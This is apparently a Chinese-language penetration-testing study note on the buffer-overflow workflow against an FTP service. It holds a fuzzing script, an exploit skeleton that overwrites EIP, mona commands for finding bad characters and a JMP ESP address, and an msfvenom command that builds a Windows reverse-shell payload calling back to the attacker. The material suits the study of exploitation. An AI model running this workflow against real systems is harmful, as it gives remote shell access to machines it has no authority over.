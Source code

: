 ```yaml
---
title: 缓冲区溢出流程
date: 2021/12/12
tags: [bufferover,渗透测试]
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
---
```




# 缓冲区溢出流程

### 一、**Immunity Debugger**

- 最好以管理员的身份运行Innunity debugger

- 通常有两种方法可以使用 Immunity Debugger 来调试应用程序：

1. 确保应用程序正在运行，打开 Immunity Debugger，然后使用`File -> Attach`调试器攻击正在运行的进程。
2. 打开 Immunity Debugger，然后使用它`File -> Open`来运行应用程序。

- 在 Immunity Debugger 中附加到应用程序或打开应用程序时，应用程序将被暂停。单击“运行”按钮或按 F9。

### 二、**mona**

Mona 是一个强大的 Immunity Debugger 插件，可以更轻松地利用缓出。下载：[:download:`mona.py <../_static/files/mona.py>`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)

最新版本可以在这里下载：[https](https://github.com/corelan/mona) : [//github.com/corelan/mona](https://github.com/corelan/mona)

这里找到：[https](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) : [//www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

将 mona.py 文件复制到 Immunity Debugger 的 PyCommands 目录(通常位于C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands）。

在 Immunity Debugger 中，键入以下内容以设置 mona 的工作目录。

`!mona config -set workingfolder c:\mona\%p`

### 三、**模糊测试**

- 可以修改以下 Python 脚本，它将发送越来越长的缓冲区字符串，最终使应用程序崩溃。

```python
import socket, time, sys

ip = "MACHINE_IP" //目标IP
port = 21  
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)

```

- 检查 EIP 寄存器是否已被 A (\x41) 覆盖，并记下使崩溃发送的字节长度

### 四、**控制EIP**

以下python漏洞利用代码可用于缓冲区溢出漏洞利用的其余部分：

```python
import socket

ip = "10.0.0.1"   //目标IP
port = 21

prefix = ""
offset = 0  //EIP偏移量
overflow = "A" * offset   //无意义的填充物
retn = ""     //ESP跳板
padding = ""  //nop缓冲区(至少/x90 *16)
payload = ""  //恶意代码
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")

```

#### 寻找EIP

- 使用导致崩溃的缓冲区长度，生成一个唯一的缓冲区，以便我们可以确定覆盖 EIP 寄存器的模式中的偏移量，以及其他寄存器指向的模式中的偏移量。创建一个比崩溃缓冲区大 400 字节的模式，以便我们可以确定我们的 shellcode 是否可以立即适应。

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600    //应该将600修改为比缓冲区崩溃长度大400字节的数字
```

- 使用 mona 的 findmsp 命令，并将距离参数设置为比缓冲区崩溃大400的数字，确定EIP偏移量

```
!mona findmsp -distance 600   //600应该更改
```

- 或者在攻击机机器里使用下面的命令来确定EIP偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134   //后面的数字是EIP的值
```

### **五、查找坏字符**

- 使用 mona 生成字节数组，并默认排除空字节 (\x00)。请注意生成的 bytearray.bin 文件的位置

`!mona bytearray -b "\x00"`

- 现在生成一串与字节数组相同的坏字符。以下 python 脚本可用于生成从 \x01 到 \xff 的坏字符字符串：

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()

```

- 使用 mona compare 命令引用你生成的字节数组，以及 ESP 指向的地址：

```
!mona compare -f C:\mona\appname\bytearray.bin -a <esp地址>  
```

- 使用Ctrl + F4组合键可以查看之前找到的坏字符
- 注意：应该逐个排除坏字符，因为前一个坏字符可能会影响到后一个，导致好的字符被误判为坏字符

### **六、寻找跳板(ESP)**

- 使用以下指令寻找ESP，并且确保不会出现坏字符：

`!mona jmp -r esp -cpb " "  //引号内的是坏字符`

- 会显示多个ESP结果，都行，记下地址，写到代码中时地址要反过来写，因为进出顺序不同

### **七、生成有效载荷**

- 使用 msfvenom 生成反向 shell 负载，确保排除之前发现的相同错误字符：

```
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f py -v payload

-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
-v 载荷的名称
```

- 注意：生成的载荷是字节类型的，放入python3脚本的时候可能需要转换成字符串类型

### **八、预先准备 NOP**

- 如果使用了编码器（如果存在错误字符的可能性很大，请记住在有效负载之前至少添加 16 个 NOP (\x90)。